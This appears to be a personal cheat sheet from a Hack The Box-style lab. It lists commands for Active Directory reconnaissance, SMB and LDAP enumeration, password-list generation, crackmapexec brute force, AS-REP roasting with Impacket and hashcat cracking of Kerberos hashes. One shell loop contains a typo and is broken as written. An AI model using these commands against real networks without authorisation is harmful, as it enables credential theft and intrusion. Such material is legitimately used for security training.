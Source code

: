Random Notes
===

## Nmap
```bash
sudo nmap -sS 10.0.0.3
nmap -sC -sV 10.0.0.3 -oA nmap
sleep 300; nmap -p- 10.0.0.3 -oA all-ports -T5
```

## Ping
Ping ttl can leak OS\
Below 64 Linux\
64-128 Windows

## SMB
SMB 445, anonymous login?
```bash
smbclient -L 10.0.0.3
```

## LDAP
```bash
ldapsearch -h 10.0.0.3
ldapsearch -H ldap://10.129.155.193:389/ -x
ldapsearch -H ldap://10.129.155.193:389/ -x -s base namingcontexts
ldapsearch -H ldap://10.129.155.193:389/ -x -b "DC=htb,DC=local" > ldap.out
ldapsearch -H ldap://10.129.155.193:389/ -x -b "DC=htb,DC=local" '(objectClass=Person)'
ldapsearch -H ldap://10.129.155.193:389/ -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName
ldapsearch -H ldap://10.129.155.193:389/ -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMA
```

## DNS
DNS running on 53, does it leak information about itself?
```bash
nslookup
server 10.10.10.100
127.0.0.1
127.0.0.2
10.10.10.100
```

## Custom wordlists
- Add months of year
- Password, P@ssw0rd
- Forest, htb, Secret
- Autumn, fall, spring, winter, summer
```bash
for in in $(cat wordlist); do echo ${i}2019; echo ${i}2020; echo ${i}\!; done > t
mv t pwlist.txt
```

## Hashcat Permutations
Create permutations with hashcat, force uses CPU
```bash
hashcat --force --stdout pwdlist.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7'
```

## Get the password policy
```bash
crackmapexec smb 10.0.0.3 --pass-pol -u '' -p ''
enum4linux 10.0.0.3
```

## rpcclient
```bash
rpcclient -U '' 10.0.0.3
enumdomusers
queryuser 0x47b
```

## Brute force:
```bash
crackmapexec smb 10.0.0.3 -u userlist.out -p pwlist
```

## Impacket
```bash
locate impacket | grep examples
cd /usr/share/doc/python3-impacket/examples
./GetNPUsers.py -dc-ip 10.0.0.3 -request 'htb.local/' -format hashcat
```

## Hashcat
```bash
./hashcat --example-hashes | grep -i krb
./hashcat -m 18200 hashes/svc-alfresco /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule
```

##CME 
```bash
crackmapexec smb 10.0.0.3 -u user -p pass
crackmapexec smb 10.0.0.3 -u user -p pass --shares
```

